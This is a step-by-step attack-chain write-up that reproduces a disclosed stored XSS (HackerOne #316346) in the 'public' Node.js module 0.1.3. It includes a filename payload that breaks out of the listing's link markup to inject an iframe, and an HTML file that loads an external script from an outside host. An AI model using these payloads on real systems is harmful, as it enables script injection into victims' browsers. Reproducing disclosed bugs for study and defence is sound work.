

# Stored XSS in Public Node.js Module via Malicious Filenames

Multi-stage attack chain demonstrating exploitation of a stored XSS vulnerability in the 'public' Node.js module version 0.1.3, where filenames are rendered without sanitization in HTML directory listings, allowing injection of malicious scripts that execute when users access the listing.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/npm]]
- [[tools/public-module]]
- [[tools/Chromium]]

### Target Environment

- Node.js runtime (version compatible with npm)
- Local file system access for creating files
- Port 8000 available
- No specific remote target; local reproduction of the vulnerability

### Initial Access Requirements

- Local machine with Node.js and npm installed
- No credentials or network position required; exploits local server setup
- Prior access: Administrative or user-level access to run npm and server

## Detailed Attack Procedures

### Step 1: Install Vulnerable Module
procedure: [[procedures/Install-Vulnerable-Public-Module]]

**Objective**: Obtain the vulnerable 'public' module to set up the exploitable server environment.

**Instructions**: Use [[commands/npm-install-public]] to install the module:

```bash
npm install public
```

**Expected Output**: Installation logs confirming the module is placed in node_modules/public.

**Success Indicators**:
- node_modules/public directory created
- public package version 0.1.3 confirmed via package.json

### Step 2: Create Malicious Filename
procedure: [[procedures/Create-Malicious-Filename-for-XSS]]

**Objective**: Craft a filename that injects XSS payload by closing HTML tags and embedding an iframe.

**Instructions**: Create a file named "><iframe src=\"malware_frame.html\"> (no extension needed for the injection).

**Expected Output**: File created in the current directory, ready for serving.

**Success Indicators**:
- File exists with the exact malicious name
- Filename includes payload to break out of <a> tag

### Step 3: Create Malicious HTML File
procedure: [[procedures/Create-Malicious-HTML-File]]

**Objective**: Generate the target HTML file loaded by the injected iframe, containing script to simulate malware execution.

**Instructions**: Create malware_frame.html with content including a script tag sourcing external JS.

**Expected Output**: HTML file with <script src="http://bl4de.tech/poc.js"></script> or similar malicious load.

**Success Indicators**:
- File malware_frame.html exists
- Contains executable script tag

### Step 4: Run Public Server
procedure: [[procedures/Run-Public-Server]]

**Objective**: Launch the vulnerable server to host the directory, enabling directory indexing that renders the XSS.

**Instructions**: Execute [[commands/run-public-server]] in the directory with malicious files:

```bash
./node_modules/public/bin/public ./ 8000
```

**Expected Output**: Server output like "Public.js server running with [path] on port 8000".

**Success Indicators**:
- Server listening on port 8000
- Directory indexing enabled

### Step 5: Trigger XSS in Browser
procedure: [[procedures/Trigger-XSS-in-Browser]]

**Objective**: Access the directory listing to execute the injected XSS payload in the browser.

**Instructions**: Open http://127.0.0.1:8000 in [[tools/Chromium]] to view the listing and trigger the iframe.

**Expected Output**: Browser renders directory with injected iframe loading external script.

**Success Indicators**:
- Malicious script executes (e.g., alert or network request to poc.js)
- Iframe content loads from malware_frame.html

## Attack Chain Summary

### Key Achievements

1. Successful installation and setup of vulnerable module
2. Injection of XSS via filename without sanitization
3. Execution of arbitrary JS in victim browsers viewing the directory
4. Potential for drive-by downloads or external script loading
5. Reproduction of HackerOne report #316346 vulnerability

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

---
*Last updated: 2023-10-01T00:00:00Z*
